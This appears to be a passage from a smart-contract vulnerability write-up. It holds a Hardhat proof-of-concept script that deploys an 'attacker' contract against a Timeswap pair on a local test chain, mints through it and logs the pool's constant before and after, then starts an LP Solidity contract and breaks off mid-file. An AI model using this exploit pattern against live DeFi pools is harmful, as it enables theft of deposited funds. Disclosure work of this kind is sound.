     async function main() {
        const [tokenDeployer, lp, attacker] = await ethers.getSigners();
        let balance = await tokenDeployer.getBalance()
        let factory = await ethers.getContractAt("TimeswapFactory", "0x5FbDB2315678afecb367f032d93F642f64180aa3", signer=tokenDeployer)
        //let [jtok, usdc] = await launchTestTokens(tokenDeployer)
        let jtok = await ethers.getContractAt("TestToken", "0x2279b7a0a67db372996a5fab50d91eaa73d2ebe6", signer=tokenDeployer)
        let usdc = await ethers.getContractAt("TestToken", "0x8a791620dd6260079bf849dc5567adc3f2fdc318", signer=tokenDeployer)
        console.log("Jtok: "+jtok.address)
        console.log("USDC: "+usdc.address)
    
        //Create Pair
        //let txn = await factory.createPair(jtok.address, usdc.address)
        pairAddress = await factory.getPair(jtok.address, usdc.address)
        pair = await ethers.getContractAt("TimeswapPair", pairAddress, signer=tokenDeployer)
        console.log("Pair address: "+pairAddress);
    
        // Deploy LP
        //let lpc = await deployLPContract(lp, jtok, usdc)
        let lpc = await ethers.getContractAt("LP", "0x948b3c65b89df0b4894abe91e6d02fe579834f8f", signer=lp)
    
    
        let jtokb = await jtok.balanceOf(lpc.address)
        let usdcb = await usdc.balanceOf(lpc.address)
        console.log("LP Jtok: "+jtokb)
        console.log("LP USDC: "+usdcb)
    
        //let txn2 = await lpc.timeswapMint(1641859791, 15, pairAddress)
        let res = await pair.constantProduct(1641859791);
        console.log("Post LP Constants:", res);
    
        let atakcontrak = await deployAttackersContract(attacker, jtok, usdc)
    
        jtokb = await jtok.balanceOf(atakcontrak.address)
        usdcb = await usdc.balanceOf(atakcontrak.address)
        console.log("Attacker Jtok: "+jtokb)
        console.log("Attacker USDC: "+usdcb)
    
        //mint some tokens
        let txn2 = await atakcontrak.timeswapMint(1641859791, 15, pairAddress)
    
        let res2 = await pair.constantProduct(1641859791);
        console.log("Post Attack Constants:", res2);
    
    }
    main().then(()=>process.exit(0))

First, the LP deploys their pool and contributes their desired amount of tokens with the below contract:

    pragma solidity =0.8.4;
    
    import "hardhat/console.sol";
    import {ITimeswapMintCallback} from "./interfaces/callback/ITimeswapMintCallback.sol";
    import {IPair} from "./interfaces/IPair.sol";
    import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
    interface TestTokenLP is IERC20{
        function mmint(uint256 amount) external;
    }
    